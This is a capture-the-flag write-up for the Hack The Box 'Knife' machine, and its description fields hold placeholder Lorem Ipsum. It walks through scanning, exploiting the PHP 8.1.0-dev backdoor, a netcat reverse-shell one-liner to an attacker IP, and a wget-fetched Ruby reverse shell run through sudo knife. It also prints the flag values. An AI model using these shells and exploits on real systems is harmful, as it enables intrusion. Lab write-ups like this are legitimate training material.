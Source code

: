 ```yaml
---
title: Knife - Hack The Box
author: "0xPThree"
description: "Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."
date: 2021-05-25
image: images/knife_logo.png
categories: [hackthebox, ]
format: html
editor: visual
jupyter: python3
toc: true
---
```


![](images/knife_logo.png)

"Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."

----------------


   ██╗   ██╗███████╗███████╗██████╗
   ██║   ██║██╔════╝██╔════╝██╔══██╗
   ██║   ██║███████╗█████╗  ██████╔╝
   ██║   ██║╚════██║██╔══╝  ██╔══██╗
   ╚██████╔╝███████║███████╗██║  ██║
    ╚═════╝ ╚══════╝╚══════╝╚═╝  ╚═╝


1. [root:/git/htb/knife]# nmap -Pn -n --open -sCV 10.10.10.242                                                                       (master✱)
  Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
  Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-24 10:51 CEST
  Nmap scan report for 10.10.10.242
  Host is up (0.044s latency).
  Not shown: 998 closed ports
  PORT   STATE SERVICE VERSION
  22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
  | ssh-hostkey:
  |   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
  |   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
  |_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
  80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
  |_http-server-header: Apache/2.4.41 (Ubuntu)
  |_http-title:  Emergent Medical Idea
  Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

DIRB:
  -

NIKTO:
  + Retrieved x-powered-by header: PHP/8.1.0-dev


2. By looking at the website there's not much we can do. No links, no nothing really.
   Going back the the enum data it's sparse, but from Nikto we find PHP version 8.1.0-dev - which sounds interesting.

   Googling around I came across an article mentioning 8.1.0-dev was released with a backdoor, making all sites using it vulnerable.
   Download a PoC script and run it to get a shell, and grab user.txt.


   [root:/git/htb/knife]# python3 backdoor_php8.1.0-dev.py                                                                           (master✱)
     Enter the full host url:
     http://10.10.10.242

     Interactive shell is opened on http://10.10.10.242
     Can't access tty; job crontol turned off.
     $ hostname && id
      knife
      uid=1000(james) gid=1000(james) groups=1000(james)

    $ cat /home/james/user.txt
      49e822672ec0b1f552fd10c37f815904


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██████╗  ██████╗  ██████╗ ████████╗
   ██╔══██╗██╔═══██╗██╔═══██╗╚══██╔══╝
   ██████╔╝██║   ██║██║   ██║   ██║
   ██╔══██╗██║   ██║██║   ██║   ██║
   ██║  ██║╚██████╔╝╚██████╔╝   ██║
   ╚═╝  ╚═╝ ╚═════╝  ╚═════╝    ╚═╝


1. The PoC-shell is limited so start by sending a new reverse shell;

  $ rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.6 4488 >/tmp/f

  [root:/git/htb/knife]# nc -lvnp 4488                                                                                              (master✱)
    listening on [any] 4488 ...
    connect to [10.10.14.6] from (UNKNOWN) [10.10.10.242] 59996
    /bin/sh: 0: can't access tty; job control turned off
    $

Upgrade the shell.


2. As usual, start with 'sudo -l'.

  james@knife:/$ sudo -l
    Matching Defaults entries for james on knife:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

    User james may run the following commands on knife:
        (root) NOPASSWD: /usr/bin/knife


Running the command we get a lot of help output, including an interesting exec option.
  james@knife:/$ sudo /usr/bin/knife
    ..
    ** EXEC COMMANDS **
    knife exec [SCRIPT] (options)

Looking at the knife binary we see that it's ruby - so most likely a ruby script is the way to go here.


3. Upload a ruby reverse shell and execute it. Capture the shell and grab root.txt.

  james@knife:/dev/shm$ wget http://10.10.14.6/rev.rb
  james@knife:/dev/shm$ chmod +x rev.rb
  james@knife:/dev/shm$ sudo /usr/bin/knife exec /dev/shm/rev.rb

  [root:/git/htb/knife]# nc -lvnp 4499                                                                                              (master✱)
    listening on [any] 4499 ...
    connect to [10.10.14.6] from (UNKNOWN) [10.10.10.242] 44298
    We are connected!
    root@knife:/dev/shm# id && hostname && cat /root/root.txt
      uid=0(root) gid=0(root) groups=0(root)
      knife
      8a3f41cb35cd8ca41e684e209e051a6c


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██╗███╗   ██╗███████╗ ██████╗ ██████╗ ███╗   ███╗ █████╗ ████████╗██╗ ██████╗ ███╗   ██╗
   ██║████╗  ██║██╔════╝██╔═══██╗██╔══██╗████╗ ████║██╔══██╗╚══██╔══╝██║██╔═══██╗████╗  ██║
   ██║██╔██╗ ██║█████╗  ██║   ██║██████╔╝██╔████╔██║███████║   ██║   ██║██║   ██║██╔██╗ ██║
   ██║██║╚██╗██║██╔══╝  ██║   ██║██╔══██╗██║╚██╔╝██║██╔══██║   ██║   ██║██║   ██║██║╚██╗██║
   ██║██║ ╚████║██║     ╚██████╔╝██║  ██║██║ ╚═╝ ██║██║  ██║   ██║   ██║╚██████╔╝██║ ╚████║
   ╚═╝╚═╝  ╚═══╝╚═╝      ╚═════╝ ╚═╝  ╚═╝╚═╝     ╚═╝╚═╝  ╚═╝   ╚═╝   ╚═╝ ╚═════╝ ╚═╝  ╚═══╝


PHP 8.1.0-dev backdoor:
  https://github.com/flast101/php-8.1.0-dev-backdoor-rce

